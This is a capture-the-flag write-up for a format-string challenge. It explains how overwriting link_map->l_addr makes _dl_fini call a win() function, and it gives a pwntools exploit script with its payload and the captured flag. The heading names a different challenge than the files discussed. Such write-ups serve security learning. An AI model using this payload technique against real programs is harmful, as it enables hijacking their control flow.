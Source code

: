 # ImaginaryCTF 2022 - pywrite

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [fmt_fun.zip](fmt_fun.zip)

There will be 2 files in zip:
- fmt_fun
- libc.so.6

Download and extract, then use `patchelf` to patch the libc to the binary. After that, we can get started!

# 1. Find bug

Decompiling with ghidra and we know there is a `win()` function which will give us flag. Analyzing `main()`, we can see it read input from user and then `printf()` with **Format String** bug.

When checking for all the defences, we know overwriting `@got` is impossible. That's all we can find. Let's move on! 

# 2. Idea

Attach with gdb, stop at `printf()` and analyze stack to see what can we overwrite:

![check-stack.png](images/check-stack.png)

The highlighted address is the address of `link_map` which is pointing to `l_addr`, and what happen in exit is that it will call `_dl_fini` first. In `_dl_fini`, there is a code that will add the `.fini_array` with value of `link_map->l_addr` and then will execute it:

```c
if (l -> l_info[DT_FINI_ARRAY] != NULL) {
    ElfW(Addr) * array =
        (ElfW(Addr) * )(l -> l_addr +
            l -> l_info[DT_FINI_ARRAY] -> d_un.d_ptr);
    unsigned int i = (l -> l_info[DT_FINI_ARRAYSZ] -> d_un.d_val /
        sizeof(ElfW(Addr)));
    while (i--> 0)
        ((fini_t) array[i])();
}
```

More information, you can read [here](https://activities.tjhsst.edu/csc/writeups/angstromctf-2021-wallstreet#writing-to-struct-link_map). So we will overwrite the `link_map->l_addr` to a number so that `.fini_array` add value of `link_map->l_addr` will point to `buf`, and we will put address of `win()` in `buf` so when it exit, it will call `win()` for us.

# 3. Exploit

```python
from pwn import *

exe = ELF('./fmt_fun_patched', checksec=False)
context.binary = exe
context.log_level = 'debug'

# p = process(exe.path)
p = remote('fmt-fun.chal.imaginaryctf.org', 1337)

payload = fit({
    0: b'%680c%26$n',
    0x20: exe.sym['win']
    })
p.sendlineafter(b'below:\n', payload)

p.interactive()
```

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `ictf{n0t_imp0ssibl3?_1b06af92}`